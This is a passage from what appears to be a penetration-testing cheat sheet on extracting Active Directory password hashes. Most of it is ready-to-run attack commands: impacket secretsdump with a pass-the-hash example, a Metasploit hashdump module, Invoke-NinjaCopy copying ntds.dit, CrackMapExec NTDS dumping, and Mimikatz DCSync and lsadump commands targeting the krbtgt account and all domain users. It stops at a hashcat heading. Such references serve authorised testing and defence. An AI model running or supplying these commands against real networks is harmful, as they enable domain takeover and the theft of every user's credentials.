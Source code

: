 [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

#### Alternatives - modules

Metasploit modules

```c
windows/gather/credentials/domain_hashdump
```

PowerSploit module

```powershell
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

CrackMapExec module

```powershell
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

#### Using Mimikatz DCSync

Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

```powershell
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

:warning: Read-Only Domain Controllers are not allowed to pull password data for users by default.

#### Using Mimikatz sekurlsa

Dumps credential data in an Active Directory domain when run on a Domain Controller.
:warning: Requires administrator access with debug or Local SYSTEM rights

```powershell
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

#### Crack NTLM hashes with hashcat
